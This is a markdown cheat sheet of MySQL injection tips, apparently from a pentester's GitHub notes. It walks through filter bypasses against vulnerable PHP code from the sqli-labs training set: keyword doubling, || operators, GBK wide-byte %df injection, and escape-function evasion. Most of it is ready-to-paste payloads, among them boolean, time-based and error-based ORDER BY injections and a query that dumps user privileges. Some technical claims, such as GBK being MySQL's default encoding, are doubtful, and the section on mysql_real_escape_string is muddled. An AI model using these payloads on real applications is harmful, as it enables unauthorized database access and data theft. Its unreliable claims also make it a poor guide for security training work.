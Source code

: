 # Mysql Injection Tips

Write by manesec.

## Useful Website

+ [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
+ [Mysql sql injection cheat sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)


## 0x0 Some by pass word

+ Space = `%0a`, `+`, `/**/`
+ and = `&&`
+ or = `||`

Note: Sometimes `-- - ` may not working, it may use `#`.

## 0x1 Bypass `only filtered at once`

Sometimes some phrases are only filtered at one time, It just turns some simple words into blanks and passes them to Mysql.

Example code like :

``` php
function blacklist($id){
    $id= preg_replace('/or/i',"", $id);
    $id= preg_replace('/AND/i',"", $id);
    return $id;
}
```

See: https://github.com/Audi-1/sqli-labs/blob/e96f21776372c8613a7e565106e62bc01a59355e/Less-25/index.php#LL61C27-L61C27

Filtered:  `or`, `and`

1. Input: `id = 1' and 1=1 -- -`
2. Filtered will be: `id = 1' 1=1 -- -`
3. Pass to mysql to exec.

Now you can do :

1. Input: `id = 1' aandnd 1=1 -- -`
2. Filtered will be: `id = 1' and 1=1 -- -`
3. Pass to mysql to exec the injection command.

The reason it worked was because he only filtered it once.

## 0x2 Bypass `space` and `command out`

Example code like :

```php
function blacklist($id) {
    $id= preg_replace('/or/i',"", $id);            //strip out OR (non case sensitive)
    $id= preg_replace('/and/i',"", $id);        //Strip out AND (non case sensitive)
    $id= preg_replace('/[\/\*]/',"", $id);        //strip out /*
    $id= preg_replace('/[--]/',"", $id);        //Strip out --
    $id= preg_replace('/[#]/',"", $id);            //Strip out #
    $id= preg_replace('/[\s]/',"", $id);        //Strip out spaces
    $id= preg_replace('/[\/\\\\]/',"", $id);        //Strip out slashes
    return $id;
}
$id= blacklist($id);
$hint=$id;
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

See: https://github.com/Audi-1/sqli-labs/blob/e96f21776372c8613a7e565106e62bc01a59355e/Less-26/index.php#L59


Filtered:  `or`, `and`,  `/*` , `–` ,`#` , `SPACE` , `/`

Using `||` to by pass it, like: 

`index.php?id=1'||extractvalue(1,concat(0x7e,user(),0x7e))||'`

## 0x3 Wide byte injection: `%df`

```php

    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);          //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string);                               //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string);                                //escape double quote with a backslash
      
```

See: https://github.com/Audi-1/sqli-labs/blob/e96f21776372c8613a7e565106e62bc01a59355e/Less-32/index.php#L19

Filtered: `/`, `'`, `"`

Add `%df` like `?id=%df' and 1=1 -- -`

MySQL uses GBK encoding by default. When MySQL uses GBK encoding, it considers two characters as one Chinese character if the ASCII code of the first character is greater than 128 (which falls within the range of Chinese characters). 

This is a feature of MySQL because GBK is a multi-byte encoding that considers two bytes as one Chinese character. When we pass parameters, we use the URL encoding for the single quote, represented as `%27`, and we can pass it as `%df%27`.

**Note** : `%23` = `#`

When we pass in `%df` as a parameter, it becomes `?id=1%DF and 1=1%23` in the database. 

At this point, the escape function will also escape the single quote we entered and convert it to `\'`, (where the URL encoding of "\" is `%5C`). 

In the URL, it becomes `%DF%5c%27`. When encoded in GBK, `%5c` will be combined with the previous `%df` to form a Chinese character (運), which closes the single quote and successfully executes the query. 

The final SQL statement is: `select * from user where id='1運' and 1=1#'`

See: https://www.freebuf.com/articles/web/337784.html

## 0x4 Bypass `mysql_real_escape_string()` when Mysql is not GBK encoding.

In the php code using the `mysql_real_escape_string()` to filtered some work, but mysql not using GBK encoding.

`\x00`, `\n`, `\r`, `\`, `'`, `"` and `\x1a` will not work.

But it have a two way to bypass it, using `%df'` or `%EF%BF%BD` (Like `%df`).

## 0x5 `order by` after injection.

```php
$sql = "SELECT * FROM users ORDER BY $id";
```

See: https://github.com/Audi-1/sqli-labs/blob/e96f21776372c8613a7e565106e62bc01a59355e/Less-46/index.php#LL22C2-L22C44

`index.php?sort=1`


**boolean injection** : It can use some function like

+ `?sort=rand(false)`

**Time based**: 

+ `?sort=(SELECT IF(SUBSTRING(current,1,1)=CHAR(115),BENCHMARK(50000000,md5('1')),null) FROM (select database() as current) as tb1)`

**Error based**:

Note: `PROCEDURE ANALYSE()` is deprecated as of MySQL 5.7.18, and is removed in MySQL 8.0.

+ `?sort=updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)`
+ `?sort=extractvalue(rand(),concat(0x3a,version()))`
+ `?sort=1 AND updatexml(rand(),concat(CHAR(126),version(),CHAR(126)),null)`
+ `?sort=1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1)`

## 0x6 Post, USER_PRIVILEGES

+ `SELECT  group_concat(concat(GRANTEE,",",TABLE_CATALOG,",",PRIVILEGE_TYPE,",",IS_GRANTABLE) SEPARATOR '|') FROM information_schema.USER_PRIVILEGES`

